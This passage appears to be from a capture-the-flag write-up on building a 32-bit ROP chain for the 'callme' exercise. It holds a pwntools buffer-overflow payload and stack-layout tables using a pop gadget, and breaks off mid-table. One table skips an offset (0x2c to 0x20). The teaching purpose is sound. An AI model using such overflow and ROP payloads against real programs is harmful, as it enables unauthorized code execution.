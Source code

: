 Luckily, this arrangement still gives us alot of freedom to smuggle a ROP chain into. See the overwritten saved `eip` at `ebp+0x4`? We can use that to call another function or ROP gadget once the called function returns.

You may think that to call `callme_two()` after `callme_one()`, you can simply do this:

```python
from pwn import *
...
ARG0 = 0xdeadbeef
ARG1 = 0xcafebabe
ARG2 = 0xd00df00d
ARGS_COMBINED = p32(ARG0) + p32(ARG1) + p32(ARG2)

attack = b"A"*44 # buffer garbage
attack += p32(exe.symbols["callme_one"]) # address of callme_one
attack += p32(exe.symbols["callme_two"]) # address of callme_two
attack += b"A"*4 # overwrite saved eip
attack += ARGS_COMBINED # arguments
io.sendline(attack)
...
```

Sure the stack from `callme_one()` perspective may still be correct. However, when the function returns to `callme_two()`, you'll find that the arguments on the stack are now offset by 4 bytes:

| Address | Value | Remarks |
| - | - | - |
| ebp+0x10 | ???????? | 3rd argument |
| ebp+0xc | 0xd00df00d | 2nd argument |
| ebp+0x8 | 0xcafebabe | 1st argument |
| ebp+0x4 | 0xdeadbeef | overwritten saved EIP |
| ebp | ........ | saved EBP from caller |

This is clearly not what we want. And we also can't really *push* the stack back up to rectify the offset. Instead we can just pop those 12 broken bytes from the stack to arrive at a new portion of the stack that we know is good. In table form:

| Address | Value | Remarks |
| - | - | - |
| ebp+0x40 | 0xd00df00d | 3rd argument |
| ebp+0x3c | 0xcafebabe | 2nd argument |
| ebp+0x38 | 0xdeadbeef | 1st argument |
| ebp+0x34 | b"AAAA" | overwritten saved EIP |
| ebp+0x30 | `callme_three()` | Address of `callme_three()` |
| ebp+0x2c | 0xd00df00d | 3rd argument |
| ebp+0x20 | 0xcafebabe | 2nd argument |
| ebp+0x1c | 0xdeadbeef | 1st argument |
| ebp+0x18 | rop_gadget | ROP gadget to pop 12 bytes above it |
| ebp+0x14 | `callme_two()` | Address of `callme_two()` |
| ebp+0x10 | 0xd00df00d | 3rd argument |
| ebp+0xc | 0xcafebabe | 2nd argument |